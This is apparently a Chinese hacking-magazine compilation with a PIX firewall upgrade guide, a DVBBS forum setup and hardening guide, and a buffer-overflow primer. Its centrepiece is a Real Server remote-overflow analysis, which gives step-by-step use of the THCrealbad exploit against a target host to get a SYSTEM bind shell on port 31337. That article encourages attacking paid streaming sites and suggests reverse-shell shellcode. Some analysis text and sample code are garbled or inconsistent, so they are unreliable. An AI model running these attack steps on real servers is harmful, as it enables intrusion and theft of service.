其中，使用最小的中断时间升级热备份的PIX设备，PIX设备必须运行PIX软件5.1.x或以上版本，这些步骤适合任何使用了热备份的PIX设备。以下有两种升级的方法。第一种方法是热备份系统升级比较安全的方法。如果在升级过程中出现了错误，用户还有一个可选的设备来传输网络数据。第二种方法简单但危险性大。危险性在于在新的镜像文件导入到PIX设备中去的时候可能会引起系统失效。现在分别列出两种方法，用户可以根据自己的实际选择最适合的方式。

## 方法一

- 这个是快速升级热备份PIX的方法。
- 1. 拷贝PIX防火墙二进制文件（pixnn.bin）到TFTP服务器根目录。
- 2. 把主PIX断电，以激活从PIX。
- 3. 断开主PIX的所有电缆，包括失效电缆。
- 4. 给主PIX加电并连上一台有TFTP服务器的PC。
- 5. 使用copy TFTP flash命令升级主PIX。
- 6. 重新启动主PIX，并确认新的版本和配置。
- 7. 主PIX断电。
- 8. 重新连接主PIX的所有电缆。
- 9. 迅速断开从PIX的电源，同时，给主PIX加电。注意：失效的时间就是主PIX启动的时间，一旦主PIX启动，它将被激活并传输网络数据。
- 10. 对从PIX重复实行步骤2—7。
- 11. 给从PIX加电，它启动以后将作为备份PIX运行。
- 12. 现在两个PIX设备都进行了升级并恢复了运行。

## 方法二

- 这是升级热备份PIX的第二种方法。
- 1. 拷贝PIX防火墙二进制文件（pixnn.bin）到TFTP服务器根目录。
- 2. 使用copy TFTP flash命令拷贝新的PIX镜像到主PIX。
- 3. 使用copy TFTP flash命令拷贝新的PIX镜像到从PIX。
- 4. 主、从PIX同时断电。
- 5. 主PIX加电。
- 6. 等大约10秒钟（确信主PIX被激活）。
- 7. 从PIX加电，它将成为备用PIX。
- 8. 两个PIX都在新升级的版本下运行起来并恢复到正常的使用状态。

在激活码方面，也必须升级。有以下情况之一就有必要升级激活码了：

- 1. 当前的PIX没有使用VPN-DES或VPN-3DES。
- 2. 当前的PIX没有激活热备份。
- 3. 准备升级基于连接的PIX到基于属性的许可证。

使用show version命令把输出保存到文本文档。该文本文档保存了当前的PIX版本、串号和激活码，在升级出现错误需要用到这些数据。

对于当前是6.1版本或更早的PIX产品，按照从引导帮助器或监控模式的步骤一步步做到提示输入新的激活码就可以了。对于运行6.2以上版本的PIX设备，使用activation-key命令来修改PIX的激活码。以下是一个范例：

```text
pixfirewall(config)# activation-key 54bf4b80 b7237e20 05022c63 f09e3302
Updating flash...Done.
Serial Number: 480490644 (0x1ca3b494)

Flash Activation Key: 0x54bf4b80 0xb7237e20 0x05022c63 0xf09e3302
Licensed Features:
Failover: Enabled
VPN-DES: Enabled
VPN-3DES: Enabled
Maximum Interfaces: 10
Cut-through Proxy: Enabled
Guards: Enabled
URL-filtering: Enabled
Inside Hosts: Unlimited
Throughput: Unlimited
IKE peers: Unlimited
The flash activation key has been modified.
The flash activation key is now DIFFERENT from the running key.
The flash activation key will be used when the unit is reloaded.
pixfirewall(config)#
pixfirewall(config)# reload
```

至此，本文比较系统地介绍了PIX防火墙不同版本的软件升级方法和注意事项，热备份PIX系统的软件的两种升级方法以及激活码的升级方法，希望对广大的网络工程技术人员的工作有帮助作用，愿和大家进一步交流。

脚本小子：5期《黑客防线》给大家送上了几篇简单的系统漏洞溢出、exp编写的文章，很多对系统漏洞感兴趣的朋友都表示了热烈的欢迎。所以，从本期开始，我们专门开设了这样的溢出教学版块，和大家一起来分析漏洞是如何产生的，黑客们又是如何去触发这个漏洞的，最后的exp又是如何编写的，当然，我们的立场是如何去防止这样的漏洞出现在我们自己编写的程序里……同时，也欢迎大家把自己对某漏洞的分析、编写过程发给我们，和大家一起分享溢出的乐趣，新旧不重要，重要的是漏洞触发、exp编写的思维哦！下面，请出牛人isno给大家带来精彩文章。

- 难度等级：高级
- 适合对象：Real Server使用研究者
- 前置知识：汇编知识

# 究竟谁才是她们的最爱

—— Real Server远程溢出漏洞分析

文／isno

这是去年immunitysec的Dave所发现的一个Real Server远程缓冲区溢出漏洞，虽然漏洞已经公布相当长一段时间，但是由于Real Server的补丁升级不像Windows那样方便，因此目前网上的大多数使用Real Server的视频点播网站仍然存在此漏洞。而且这个漏洞是比较特殊的，它并不是普通的字符串缓冲区溢出，而是一个指针数组的溢出，因此攻击程序的通用性非常好，可以很容易利用这个漏洞来进行攻击。现在网络上很多收费的RealServer网站，使用这个漏洞，或许能使你省掉不少钱哦！下面我们就来分析这个漏洞成因以及利用攻击方法。

## Real Server工作原理

Real Server是一款由RealNetworks开发和维护的多类型媒体服务器，在Real Server 8.0以后版本被命名为Helix Server，但它们的内核都是一样的。在下列版本的Real Server中存在此漏洞：

- Real Networks Real Server 8.0 Beta
- Real Networks Real Server 8.02
- Real Networks Real Server 8.01
- Real Networks Real Server 8.0
- Real Networks Real Server 7.0.2
- Real Networks Real Server 7.0.1
- Real Networks Real Server 7.0
- Real Networks Real Server G2 1.0
- Real Networks Helix Universal Server 9.01
- Real Networks Helix Universal Server 9.0
- Real Networks Helix Universal Server 8.01

问题存在于Real Server的View Source插件上，这个插件负责读取和显示媒体文件的文件格式头。当部分字符（如“/”）以超多数量包含在URL中，服务器协议在对此URL进行解析时可发生缓冲区溢出，精心构建提交数据可能以服务进程权限在系统上执行任意指令。

我们首先来介绍一下Real Server是如何进行工作的。Real Server和普通的Web服务器类似，它是使用RTSP协议来实现流媒体点播的。RTSP是Realtime Streaming Protocol的缩写，意思是实时流协议。它是一种应用层协议，与HTTP协议非常类似。如果使用IE浏览器，用鼠标单击带有RTSP协议的链接，可以直接启动电脑中的RealPlayer进行播放。由于这种协议是实时播放的，因此不能直接点击下载或利用“网络蚂蚁”“网际快车”等下载工具进行下载。

一个常见的网络点播操作过程如下：每次当客户端（RealPlayer）进行网上点播操作时，首先会连接到服务端（Real Server）的554端口，然后向服务器发送一个OPTIONS操作来获取服务器支持哪些操作。服务器会把服务器所支持的操作返回给客户端。客户端在得到的结果当中寻找DESCRIBE，如果服务器支持DESCRIBE操作，客户端就会发送DESCRIBE操作来获取媒体文件的相关信息。在这之后，客户端会发送SETUP和SET_PARAMETER操作把客户端的数据监听端口等信息告诉服务器。然后服务器会回连到客户端的这个端口，建立数据传输通道，然后把媒体文件的内容发送到客户端，这样客户端就可以进行播放了。整个过程如下所示：

# 漏洞原理

在了解了Real Server的流媒体播放原理之后，我们来研究一下View Source插件的缓冲区溢出漏洞。这个漏洞就是在上面所讲述的第三个过程当中被触发的，当客户端向服务器发送DESCRIBE操作时，服务器就会调用View Source插件来获取流媒体文件的相关信息，在解析流媒体文件名的时候，Real Server没有进行足够的安全检查，造成了一个堆栈当中的指针数组溢出，从而覆盖到堆栈里保存的返回地址。但是这个漏洞的利用过程是相当特殊的，它不是一般的字符串缓冲区溢出，而是一个指针数组的溢出，而且溢出之后进行覆盖的内容攻击者是无法控制的。然而非常凑巧的是，由于被溢出的指针数组中存放的可能是攻击者可以控制的内容的地址，所以利用一些技巧可以让返回地址被覆盖成可以执行到shellcode的地址。如此一来，就无须对不同版本的操作系统以及不同版本的Real Server来使用不同的覆盖返回地址，这样反而提高了漏洞利用的成功率。所以，凡是有漏洞的服务器，无论操作系统版本还是Real Server版本都无关紧要，都可以非常容易地攻击成功。

现在，我们来看一下漏洞发生的具体情况。在本地安装了一个Real Server 8.01，然后使用netcat连接到本地的554端口，发送如下请求：

```text
C:\>nc -vv localhost 554
isno [127.0.0.1] 554 (?) open
DESCRIBE /aaaa/a.smi RTSP/1.0
```

在RTSP/1.0后面要跟两个回车，然后会进入rmserver.exe进程中，在View Source插件即vsrc3260.dll中的0x0254D330函数当中对媒体信息格式字符串进行解析：

```text
.text:1000D330 ; int __stdcall sub_1000D330(int,char *)
.text:1000D330 sub_1000D330 proc near ; DATA XREF: .rdata:1001C8DC
.text:1000D330
.text:1000D330 var_C   = dword ptr -0Ch
.text:1000D330 var_8   = dword ptr -8
.text:1000D330 var_4   = dword ptr -4
.text:1000D330 arg_0   = dword ptr  8
```

这个字符串参数就是媒体信息格式字符串，它是由一系列表示媒体信息的字符串所组成，并由“.”符号来进行分隔，当我们提交了上面的DESCRIBE请求后，Real Server会组成一个媒体信息格式字符串来进行查询，这个字符串的内容是config.ViewSourceConfiguration./aaaa，其中/aaaa就是我们提交的请求当中要查询的媒体文件的路径，在这个字符串之后是另外一个字符串a.smi，也就是提交的请求当中要查询的媒体文件名。

```text
.text:1000D330 arg_4   = dword ptr 0Ch
```

这个sub_1000D330函数所要进行的就是对媒体信息格式字符串进行解析，在后面会调用另外一个函数：

```text
.text:1000D43E    lea   edx, [ebp+var_4]
.text:1000D441    push  edx
.text:1000D442    push  ebx    ; 这个参数就是媒体信息格式字符串
.text:1000D443    mov   eax, [eax+10h]
.text:1000D446    push  eax
.text:1000D447    mov   ecx, [eax]
.text:1000D449    call  dword ptr [ecx+78h] ; 调用 0x00432EC0

.text:00432EC3    mov   eax, [ebp+arg_8]
.text:00432EC6    mov   ecx, [ebp+arg_4]
.text:00432EC9    mov   edx, [ebp+arg_0]
.text:00432ECC    push  eax
.text:00432ECD    push  ecx
.text:00432ECE    mov   ecx, [edx+14h]
.text:00432ED1    call  sub_47C860 ; 调用 0x0047C860 函数

.text:0047C871    push  ecx
.text:0047C872    lea   ecx, [ebp+var_8]
.text:0047C875    push  edx
.text:0047C876    push  ecx
.text:0047C877    mov   ecx, esi
.text:0047C879    mov   [ebp+var_8], 0
.text:0047C880    mov   [ebp+var_4], 0
.text:0047C887    call  dword ptr [eax+44] ; 调用 0x00440550 函数
```

再经过几次函数调用之后，最终会去调用sub_4838C0函数：

```text
.text:0044056A    push  2Eh   ; 这个参数是 '.' 字符
.text:0044056C    push  ecx   ; 这个参数就是媒体信息格式字符串
.text:0044056D    mov   ecx, eax
.text:0044056F    call  sub_4838C0
```

sub_4838C0这个函数作用就是把媒体信息格式字符串按照指定字符（这里是“.”字符）进行解析分割，然后把解析出来的字符串地址放在一个指针数组里面：

```asm
.text:004838C0 sub_4838C0 proc near ; CODE XREF: sub_440550+1F p
.text:004838C0 var_1000 = dword ptr -1000h
.text:004838C0 arg_0 = dword ptr 8
.text:004838C0 arg_4 = byte ptr 0Ch

.text:004838C0 push ebp
.text:004838C1 mov ebp, esp
.text:004838C3 mov eax, 1000h
.text:004838C8 call __alloca_probe
```

调用__alloca_probe的作用是在函数堆栈中分配一块0x1000字节大小的缓冲区，其实这是一个指针数组，因为每个指针所占大小是4字节，所以它能存放的指针数量是1000h ÷ 4 = 400h，即1024个字节 ÷ 4 = 256个？这里按原文逻辑应为0x1000 = 4096字节，因此可存放4096 ÷ 4 = 1024个指针。但结合后文，原文按“250个”进行分析，显然是将1000h误作1000字节。用C语言形式来表示就是DWORD *ptr[250]。

```asm
.text:004838D0 mov edi, [ebp+arg_0]
.text:004838D3 test edi, edi
.text:004838D5 mov ebx, ecx
.text:004838D7 jnz short loc_4838E2
.text:004838D9 cmp byte ptr [edi], 0
.text:004838DC jz loc_4839DB
```

下面来填充一个信息结构，这个结构主要包括媒体信息格式字符串地址以及两个当作计数器的整型数变量：

```asm
.text:004838E2 mov eax, 1
.text:004838E7 mov [ebx+4], edi
.text:004838EA mov [ebx+15h], eax
.text:004838ED mov [ebx+11h], eax
.text:004838F0 mov al, [edi]
```

下面把媒体信息格式字符串地址放在指针数组的第一个位置，即ptr[0]。

```asm
.text:004838F2 mov [ebp+var_1000], edi
.text:004838F8 test al, al
.text:004838FA jz short loc_483930
```

下面的操作就是分析媒体信息格式字符串，遇到“.”字符就把这个地址放入指针数组中，即从ptr[1]开始存放含有“.”字符的地址，因为ptr[]数组最大为250，媒体信息格式字符串地址已经占用了1个位置，所以还能存放249个指针。如果所查询的媒体信息格式字符串中包含的“.”字符的数量超过249个，那么就会发生指针数组溢出，然后就可以用含有“.”字符的地址来覆盖返回地址，这样如果用户有“.”字符的地址构造一个可以执行的指令的话，就可以让函数返回时跳转到我们的shellcode当中去。

```asm
.text:004838FC loc_4838FC:
.text:004838FC mov eax, [ebx+4]
.text:004838FF mov cl, [ebp+arg_4]
.text:00483902 cmp [eax], cl
.text:00483904 jnz short loc_48391B
.text:00483906 cmp eax, edi
.text:00483908 jbe short loc_48391B
.text:0048390A mov edx, [ebx+15h]
.text:0048390D mov [ebp+edx*4+var_1000], eax
.text:00483914 mov eax, [ebx+15h]
.text:00483917 inc eax
.text:00483918 mov [ebx+15h], eax

.text:0048391B loc_48391B:
.text:0048391B mov esi, [ebx+4]
.text:0048391E mov edx, [ebx+11h]
.text:00483921 inc esi
.text:00483922 inc edx
.text:00483923 mov eax, esi
.text:00483925 mov [ebx+4], esi
.text:00483928 mov [ebx+11h], edx
.text:0048392B cmp byte ptr [eax], 0
.text:0048392D jnz short loc_4838FC
```

如果用C语言来表示上面的程序的话，大概就是这个样子的：

```c
int AnalyseMediaInfo(int i, char *szInfo)
{
    DWORD *ptr[250];   // 在缓冲区中分配一个250大小的指针数组
    int i, j;          // 两个计数器变量
    if (szInfo == NULL || szInfo[0] == 0)  // 判断媒体信息格式字符串是否合法
        goto err;
    ptr[0] = szInfo;   // 存放媒体信息格式字符串地址
    for (i = 0, j = 1; szInfo[i] != 0; i++, j++)
```

```c
if (szInfo[i] == '\0')      // 寻找媒体信息结束字符串中
{                           // 含有“.”字符的地方
    ptr[i] = &szInfo[i];    // 找到的话就把这个地方放
}                           // 入 ptr[] 数组当中
else
    do something;
```

这样一来，大家就可以更清楚地看出溢出是如何发生的了。这个函数的堆栈里依次存放着两个参数、返回地址、保存的 EBP、ptr[] 数组。因为程序没有对 ptr[] 数组的容量进行判断，所以当不断在 ptr[] 中存入地址并超过 249 个时，就会覆盖到堆栈里的 EBP 和返回地址。那么，就用含有“.”字符且可以执行的地址覆盖返回地址，这样当函数返回的时候就可以成功地跳转到 shellcode 去了。

# 攻击方法

知道了该漏洞的成因之后，要利用这个漏洞就不难了。我们要做的就是发送一个 `DESCRIBE /path/name.smi RTSP/1.0` 请求，其中在 path 当中包含大量“.”字符（超过 249 个），这样就会用其中一个“.”字符的地址覆盖返回地址，当函数返回的时候就跳到这个地址去执行了。那么如何使得这个地址的指令可以合法执行呢？用“../”这样的字符串，即 `2E 2E 2F` 恰好组成一个 DAS 指令，这个指令只是改变 EAX 的值而没有什么特殊影响，可以当作 NOP 指令来使用。然后把 shellcode 放在 name 里面，这样就可以成功地执行到 shellcode 了。这种利用方法的好处在于不用寻找通用的返回地址来跳转到 shellcode，如此一来就大大提高了攻击的成功率。

其实，我们已经再不用费心去写攻击程序了，因为著名黑客组织 THCE 已经写出来一个非常完美的 exploit 程序，对于 Helix Server 9.02 以下版本的服务器几乎可以 100% 攻击成功。这个程序的使用也非常简单：

```text
C:\Downloads\RealX>THCRealbad
THCREALbad v0.4 - WindowZ & Linux remote root
sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
Usage: <Host> <OS>
0 = WindowZ
1 = Linux
2 = OS Test Mode
```

首先，我们用选项 2 来测试目标服务器的 Real Server 版本：

```text
C:\Downloads\RealX>THCrealbad 192.168.0.1 2
```

```text
THCREALbad v0.4 - WindowZ & Linux remote root
sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
Detected OS: RealServer Version 8.0.0.149 (win32)
```

只要显示出的 Real Server 版本在 9.02 以下，那么恭喜你，攻击成功的概率在 95% 以上了。如果测试出的系统版本是 Win32 就用选项 0 来攻击，如果测试出的系统版本是 Linux，那么就用选项 1 来攻击：

```text
C:\Downloads\RealX>THCrealbad 192.168.0.1 0
THCREALbad v0.4 - WindowZ & Linux remote root
sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
exploit send ... sleeping a while ...
ok ... now try to connect to port 31337 via netcat
```

这时就在目标机器上开了一个 31337 端口的 CMD Shell，我们用 NC 或者 Telnet 连接上去就行了：

```text
C:\Downloads\RealX>nc -vv 192.168.0.1 31337
ismo [192.168.0.1] 31337 (?) open
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>cd\
C:\>dir
驱动器 C 中的卷没有标签。
卷的序列号是 E069-DC39

C:\ 的目录
2003-10-31  00:07    <DIR>          Documents and Settings
2004-01-27  02:12    <DIR>          Downloads
2004-01-30  17:47    <DIR>          Program Files
2004-01-18  17:19    <DIR>          WINNT
               1 个文件              0 字节
               4 个目录    441,294,848 可用字节
```

这时获得的就是一个 SYSTEM 权限的 CMD 了，如果是 Linux 系统则可以获得 root 权限的 Shell。这个攻击程序唯一的缺陷就在于它的 shellcode 是监听端口的，如果目标主机有防火墙的话，我们即使攻击成功也无法连接到目标主机的 31337 端口上去。当然，把这个攻击程序修改成反向连接或者截获 socket 句柄的 shellcode 也是很简单的，只要把其中的 shellcode 替换成你所需要的就行了。不过要注意一点，这个 shellcode 是用 `0x90` 异或的，所以你的 shellcode 也必须使用 `0x90` 进行异或。

# 修补漏洞

使用 Real Networks Helix Universal Server 9.02 以及以上版本就不存在这个漏洞了，或者是修改你的防火墙策略，让其他端口不能访问网络，也能同样达到防护的目的。

# 初探缓冲区溢出攻击

文／图：cache

缓冲区溢出攻击是一种非常有效而常见的攻击方法，在被发现的众多漏洞中，缓冲区溢出方面的漏洞占用了大部分。今天我们就缓冲区溢出基础方面做一些分析，以便和新手朋友们共同学习提高。

本文主要讲解两个内容：堆栈基础知识和缓冲区溢出基本原理，以后将和大家逐步深入地学习下去，希望大家都能掌握这个高级技术！

# 堆栈的基础知识

堆栈是一种抽象数据结构，物理上就是一段连续分配的内存空间。当我们在一个程序中声明各种变量时，静态全局变量将位于数据段并且在程序开始运行的时候被加载，而程序的动态局部变量则分配在堆栈里面。

在堆栈的分配中，在地址上其从高往低分配空间（注意：这和内存从低往高分配的方式是截然相反的），并且遵循“后进先出”的原则，堆栈涉及到压栈（push）和出栈（pop）两种操作。堆栈的栈顶位置由寄存器 ESP 指定，压栈时，ESP=ESP-4，同时在 ESP 处存放需要压入堆栈的数据；出栈时，ESP=ESP+4，原先的栈顶数据将不再属于堆栈范围之内，即相当于数据出栈了。

当程序在进行函数调用时，往往是先通过 push 指令压入参数，然后通过 call 指令来调用相关具体函数。譬如，在调用 MessageBoxA 函数的过程中，相关数据进入堆栈的顺序和具体数据如图 1 所示：


图 1

其压入堆栈的数据分别为 4 个参数、返回地址和 EBP。对于一般函数来说，如果函数有局部变量，接下来，就在堆栈中开辟相应的空间以构造变量。函数执行结束，这些局部变量的内容将被丢失，但是不被清除。在函数返回的时候，弹出 EBP，恢复堆栈到函数调用的地址，弹出返回地址到 EIP 以继续执行程序。

# 缓冲区溢出的基本原理初探

我们先找一个例子说明一下什么是缓冲区溢出：

```c
void function(char *str)
{
    char buffer[16];
    strcpy(buffer, str);
}

void main()
{
    char large_string[256];
    int i;
    for (i = 0; i < 255; i++)
        large_string[i] = 'A';
    function(large_string);
}
```

以上是个经典的溢出例子程序，strcpy 也是一个经常引起缓冲区溢出的函数。从上面程序中我们可以看到，传递给 function 的字符串长度要远远大于 buffer 大小，并且 function 没有经过任何长度校验直接用 strcpy 将长字符串拷入 buffer。如果执行该程序，系统一定会报告“Segmentation Violation”错误，下面我们来对程序运行过程作一分析，这样也便于我们了解溢出的基本原理。

首先，我们看一下未执行 strcpy 时堆栈中的情况（从高地址往低地址排列）：


当执行 strcpy 时，程序将 256 字节的字符串拷入到 buffer 中，但 buffer 仅能容纳 16 字节。由于 buffer 处于低地址，而 EBP、返回地址均位于紧挨着 buffer 的高地址。由于 C 语言并不进行边界检查，所以结果是紧跟着 buffer 后面的 250 字节的内容也被覆盖掉了，这其中自然也包括 EBP 和返回地址，如上面例子中，EBP 和返回地址均变为 `0x41414141h`，这样，当 function 函数执行完毕之后，将会把返回地址弹出赋值给寄存器 EIP，并跳到该地址执行（即跳到 `0x41414141h`），但由于这个地址并不在程序实际使用的正常访问范围内，所以系统会报错“Segmentation Violation”。如果我们覆盖返回地址的数据不是 `0x41414141h`，而是可以正常执行的代码位置的话，那么程序将会跳到我们指定的目的地址继续执行。

这样，我们就改变了程序的执行流程。如果该代码位置是经过精心构造的后门程序，那么系统将会被控制。而这里所说的代码实际上就是攻击者在编写溢出程序提交数据时一起提交的 ShellCode。关于 ShellCode 的编写，将是我们以后要讲到的问题。

其实缓冲区溢出入门比较简单，关键在深入以后才会有更多新天地等着我们去欣赏，不急哦，慢慢来，成功并不遥远！

# 组建你的个人精品 ASP 论坛


文／图：夜猫子

在所购买的空间上架设论坛似乎已经多如牛毛了，不经意输错个网址，竟又是一个论坛！两年时间里国内网络产生的论坛数目似乎是过去 10 年的几倍。不过，国内还是 ASP、CGI、PHP 论坛占主流，极少看到基于 ASP.NET、JSP 的论坛，偶尔还可以发现个 ADSL 服务器架起的论坛。笔者早在 2002 年就在自己的 PIII MMX 200 OC 250 机上架了两个月论坛，可是红火异常哦！现在大家在网络中的朋友一定不少吧？想过利用自己的个人电脑加上 ADSL 来建立自己的私人论坛？邀上几个好友，沏上一壶清茶，人间美事啊！

本文以最常见的动网 DVBBS 7.0 SP2 论坛（官方站点 http://www.aspsky.net）为例，因为 SQL 版本是收费的，我们只能拿到 ACCESS 版本的，不过不要紧，这已经足够让我们拥有自己引以为豪的个人论坛了，跟我走吧，这是一条阳光大道……

## 准备工作

想要建 BBS，需要什么样的条件呢？我个人认为必须具备以下因素：

- 1. 需要有自己的机器，连接上 Internet，带宽是越大越好呀，最少也要 512K 吧？没有人希望访问一只 5K 小猫上面的 BBS 的。也就是说，ADSL 架 BBS 才具有普遍意义咯。
- 2. 安装上 IIS Web 服务的 WinNT 系统，并已做好主机安全工作（详情请见以前《黑客防线》相关文章）。
- 3. 具有公网的静态固定 IP 或动态 IP，如果没有的话也是可以的，只需要安装 PortTunnel 进行设置端口映射就可以了。
- 4. 需要有较安全的 BBS 源程序，极少有人会自己开发 BBS 程序，更多的人选择下载并使用一些网站开放的论坛程序。同样，这里我们将以动网 DV 7.0 + SP2 为例讲解如何架设一个安全的论坛服务器。
- 5. 懂得一些基础的 HTML 代码相关知识或是 ASP 知识，以及 Dreamweaver 或是 FrontPage 的基本应用，这将有利于你更好地理解以及进一步美化或修改论坛。

## 架设工作

各种语言平台下，论坛的架设都有一定的不同，不过总是大同小异的，希望大家能做到举一反三，这才是笔者写本文的一个目的。下面将以 DVBBS 为例，介绍论坛是如何架设的。步骤如下：

## 一、架设好 ADSL Web 服务器

- 1. 我们选择 Win2000 Server 或是 Win2003 为 BBS 服务器的操作系统，并安装 IIS 信息服务（图 1），只需安装最少的组件以达到最大的安全。


在此要注意，Win2003 系统要支持 ASP，需要在 IIS 管理器里将：Web 服务扩展 --> Active Server Pages 设为“允许”，下面论坛架设才能正常访问（图 2）。


接着在默认网站上点 MOUSE 右键 ---> 属性 ---> 文档 ---> 添加 index.asp ---> 确定，以确保 index.asp 能被默认打开。

### [TIPS] 操作系统的选择

- 1. 我们不用 WinXP 与 Win2000 及 Win2003 个人版本，是因为我们了解到这些版本只允许 10 个 IIS 同时连接（当然可以通过程序解除限制），现阶段最常见的空间运营商所安装的系统版本多为 Win2000 企业版，个人 BBS 服务器多选择 Win2000 Server/Advanced Server。
- 2. 动态 IP 的朋友请选用各种动态域名解析软件，从而使自己的机器成为“动态主机”，较常用的有 Dynamic DNS（官方网 http://www.meibu.com）、花生壳动态域名（官方网 http://www.oray.net）、7i24 动态域名（官方网 http://www.7i24.com/dhost）、WinIP 科迈动态域名（官方网 http://www.comexec.cn）。当然还有更多的域名系统，都各有自己的优缺点。请下载后按说明安装就可以了，这些软件设置并不复杂（这儿假设我们架设软件为 WinIP，域名为 http://lovecn.kmip.net，这是我临时用的），如图 3 所示。


## 二、安装配置 DVBBS 论坛

下载最新的论坛源程序并解压到适当目录。动网论坛 Ver 7.0.0（Access 版本）下载地址 http://bbs.dvbbs.net/download/dvbbs7.0.0_Ac.exe，将其解压到 `D:\web`（这儿假设我们设置 IIS 目录为 `D:\web` 目录，因为它含 SP2 文件，所以我们就不需要再打 SP2 补丁了。之后输入 http://localhost 及 http://lovecn.kmip.net，看是否能正常访问。答案是肯定的话，Congratulations！你正在成功的路上！再删除 install.asp 这个安装文件（有部分版本的 DVBBS 不用运行此文件），再用默认超级管理员（用户名：admin，密码：admin888）登录论坛，点击页面上方出现的管理链接进入管理页面完成论坛的设置，至此论坛就安装完成了。

> 注意：如果你是将 BBS 源码解压到 `D:\Web\dvbbs` 下，你必须访问地址为：http://localhost/dvbbs 或 http://lovecn.kmip.net/dvbbs。

### [TIPS] 怎样安装 BBS，我不知道如何做？

很多新手对 BBS 知之甚少，那么请好好阅读类似“安装指南.txt”“升级说明.txt”这样的文件，里面会很详尽地和你讲解如何去完成 BBS 的安装，一般也列举了应注意的一些安全问题，请严格按上面的要求一步步运行。

## 安全维护

当我们尽最大能力确保自己的 Windows 系统安全后，我们必须对 BBS 进行必要的安全设置。我们知道任何一方的不安全都将导致我们不希望看到的一面——论坛或是系统是能被入侵或破坏的哦，所以安全措施势在必行。Windows 安全设置请见《黑客防线》相关文章，下面的讨论范围将限制于论坛安全方面。

- 1. 默认的安全问题与相对应的修改

（1）默认数据库地址的安全问题。打开论坛 DATA 目录，将 `Dvbbs7.mdb` 改名为任意复杂文件名（后缀为 asp），再打开主目录下的连接 `conn.asp` 文件。查找 `dvbbs7.mdb`，并替换为我们该修改的文件名。比如，我们将 `dvbbs7.mdb` 改名为 `ilovemod#.asp`，将 `conn.asp` 里的 `dvbbs7.mdb` 改为 `ilovemod#.asp`。

（2）默认管理员的安全问题。更改默认管理员密码或添加新管理员密码后删除默认管理员。有时候，我们意外发现有极少数网站管理员账号是 admin，密码竟仍是默认的 admin888，于是进后台，传 ASP 木马，运气好的可以拿到 SQL 数据库密码，得到服务器的管理员权限。注册一个新用户后，再用默认管理员登录，进入管理后台后将此用户名添加为管理员，再删除默认管理员账号。

（3）默认备份数据库的地址的安全问题。这也是一个重要的安全问题。很多朋友都没修改默认的数据库目录和名称（`Data\dvbbs7.mdb`），这儿推荐大家在备份时将 databackup 目录与文件名作出更改，比如 `backup05081/okdata.mdb`，再将 `okdata.mdb` 下载／移动到硬盘其他 WWW 不能访问到的目录下（下载完成后请立即删除此备份文件——除非你对服务器或空间的安全绝对有信心）。

## [Tips] 备份的必要性与重要性

定期更改数据库的名字并备份数据，提高论坛安全系数。当论坛遇到各种意外的情况时，备份的数据库将成为 BBS 的最后救命稻草。

## 2. 密码的安全问题及其相对应的设置

- 1. BBS 管理员定期修改自己的密码，不要在任何公共场所使用自己的密码进入论坛。
- 2. BBS 管理员在管理论坛或者用管理员身份登录时，尽量不要去访问其他任何站点，以防止 Cookie 泄密。
- 3. 不要使用少于 8 位的密码，密码中务必是数字、字母的组合，以提高安全系数。对于管理员，密码不应该少于 12 位，必须是数字、字母（大小写）组合。
- 4. 定期维护论坛，初始化用户资料，查看是否有异常的账号，及时处理多余的坛主和总斑竹。
- 5. 使用 E-mail 邮箱收发密码（服务器需要有 JMAIL 或其他 MAIL 系统支持），一个邮箱限制注册一个 ID。
- 6. 删除 lostpass.asp 文件，防止非法破解得到密码。
- 7. 对某些级别以上成员的 IP 进行记录，并不定时对比查看（如果你够细心的话，或是你入侵过股票论坛的话，或者你会了解到一些论坛的管理员极为细心，可能是出自收费利益原因吧）。

论坛程序的安全性问题与相关措施也应该得到足够的重视：

- 1. 时常更新论坛程序。及时查阅官方网站以获取最新的升级程序，确保论坛的安全性。
- 2. 时常关注黑客网站的相关公告与黑客论坛相关帖子。往往安全补丁或是升级补丁总是在漏洞出现之后一到几个星期后才出现，即使你天天呆在官方站点，也于事无补。如果你有空的话多走一下黑客网站或是安全网站，或许能有所收获。
- 3. 具有较新、较快信息的安全／黑客朋友或杂志，以便得到漏洞第一手资料并作出最快的回防。我们了解到类似《黑客防线》杂志或是其他杂志的文章较少于网上公布，想到得到漏洞的话必须热心关注杂志了。如果你有安全网站的朋友，相信你得到的信息也会较快。
- 4. 有可能的话，细研 BBS 论坛代码以减少 Bugs。漏洞的产生往往是在精读代码后产生的，当然这需要极大的恒心与较强的能力。对新手来说，这个几乎是不可能的。
- 5. 删除或移动可能涉及安全问题的 BBS 相关文件。这是笔者个人的意见，仅供参考。因为我们往往拿不到最新的补丁或漏洞情报，所以我们有必要以消极的态度对待 BBS 程序。笔者是把除了 admin_lockip.asp、admin_lockuser.asp、admin_postings.asp 3 个文件以外的所有 admin_*.asp 移动到 www 可访问目录以外，有需要的时候再移回原地址。这样相当于删除后台，减少了账号被偷窃或暴破后非法进入后台的情况，也从较大程度上减少了被黑的幅度。如图 4 所示。


图 4 已删除所有后台访问文件的 DVBBS（FTP 窗口里所见）

- 6. 对每个插件或是皮肤（SKIN）进行严格检查。利用杀毒软件进行查杀后再使用，以防止被不良居心的提供下载者插入 ASP 木马或是相关木马程序。假如你的网站上多了一只无法控制的眼睛，那么你还有隐私权可言吗？
- 7. 选择是否需要 FSO 权限支持。笔者认为 FSO 在 Dvbbs 上并不是很重要（如果你认为不对，我保留意见！），反而造成一定的安全问题。消极地说，禁止 FSO 可以防止 ASP 木马，可以防止后台登录后备份并下载数据库。至于负面影响也只是在使备份功能丧失或是某些管理设置上不能正常使用，比如：在线积分／工资的设置就需要 FSO 权限支持。
- 8. 时常查看后台管理员登录 IP 以及其他设置。如果发现不是熟悉范围内的 IP 或是管理员自己没设置的情况，可以在第一时间里掌握到论坛是否安全等信息，并作出回防。比如：每个版面是否被非法设为可上传 ASP 文件或是其他文件。
- 9. 在升级或是维护论坛时，如是需要更动数据库文件，请一定要备份好数据库，特别是在你不确定是否操作成功的情况下，更应有危机意识。或许某一天，这个好的习惯会让你发展为一项求生的技能。

# 巧架个人 BT 服务器


文／图 白白pig

